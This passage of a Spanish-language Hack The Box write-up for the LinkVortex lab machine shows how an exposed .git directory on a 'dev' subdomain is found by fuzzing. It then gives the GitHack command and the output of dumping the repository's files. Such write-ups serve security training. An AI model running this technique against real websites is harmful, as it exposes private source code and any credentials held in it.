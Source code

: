 ![](/assets/images/htb-writeup-linkvortex/dev.png)

despues de un escaneo de en fuzing encuentro un `dev` ahora un escaneo con del de `dev` encontramos unas rutas con git

```
.git/                                            
.git/description                                 
.git/config
.git/HEAD
.git/hooks/                                      
.git/info/                                       
.git/info/exclude                                
.git/logs/                                       
.git/logs/HEAD
.git/objects/                                    
.git/refs/                                       
.git/packed-refs                                 
.git/index  
```
despues de una busqueda encontre un repositorio de github que hace por haci decir un escaneo y en git extrae informacion critica la vulnervilidad se llama `Git Directory Traversal`

```
   1   │ noesholk@noes:~/GitHack$ python GitHack.py 'http://dev.linkvortex.htb/.git'
   2   │ [+] Download and parse index file ...
   3   │ [+] .editorconfig
   4   │ [+] .gitattributes
   5   │ [+] .github/AUTO_ASSIGN
   6   │ [+] .github/CONTRIBUTING.md
   7   │ [+] .github/FUNDING.yml
   8   │ [+] .github/ISSUE_TEMPLATE/bug-report.yml
   9   │ [+] .github/ISSUE_TEMPLATE/config.yml
  10   │ [+] .github/PULL_REQUEST_TEMPLATE.md
  11   │ [+] .github/SUPPORT.md
  12   │ [+] .github/actions/restore-cache/action.yml
  13   │ [+] .github/codecov.yml
  14   │ [+] .github/hooks/pre-commit
  15   │ [+] .github/scripts/dev.js
  16   │ [+] .github/workflows/auto-assign.yml
  17   │ [+] .github/workflows/browser-tests.yml
  18   │ [+] .github/workflows/ci.yml
  19   │ [+] .github/workflows/create-release-branch.yml
  20   │ [+] .github/workflows/custom-build.yml
```